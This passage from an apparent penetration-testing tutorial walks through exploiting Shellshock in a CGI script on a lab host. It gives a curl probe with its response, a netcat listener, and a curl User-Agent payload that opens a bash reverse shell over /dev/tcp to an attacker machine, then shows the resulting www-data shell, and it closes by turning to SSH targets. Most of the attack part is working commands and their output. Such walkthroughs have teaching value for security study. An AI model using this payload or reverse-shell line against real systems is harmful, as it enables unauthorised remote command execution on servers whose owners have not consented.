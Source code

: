 ```bash
# Manual test using curl
curl -A "() { :; }; echo 'Vulnerable to Shellshock'" http://192.168.1.200/cgi-bin/test.cgi
```

**Shellshock test output:**
```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>200 OK</title>
</head><body>
<h1>CGI Test</h1>
<p>Your User-Agent: () { :; }; echo 'Vulnerable to Shellshock'</p>
Vulnerable to Shellshock
</body></html>
```

**Exploiting Shellshock for a reverse shell:**

```bash
# Step 1: Set up a listener on your machine
nc -lvnp 4444
```

**Netcat listener output:**
```
listening on [any] 4444 ...
```

```bash
# Step 2: In another terminal, send the exploit
curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.1.50/4444 0>&1" \
     http://192.168.1.200/cgi-bin/test.cgi
```

**Shell received output:**
```
listening on [any] 4444 ...
connect to [192.168.1.50] from (UNKNOWN) [192.168.1.200] 45678
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ 
```

**Understanding the exploit:**
- The vulnerability exists in how Bash processes environment variables
- We inject commands after the function definition
- The server executes our injected command with its privileges

Shellshock is a great example of how web applications can be vulnerable, but let's look at a more direct approach - targeting SSH services. SSH is incredibly common on Linux systems and is often a prime target for attackers! 🎯
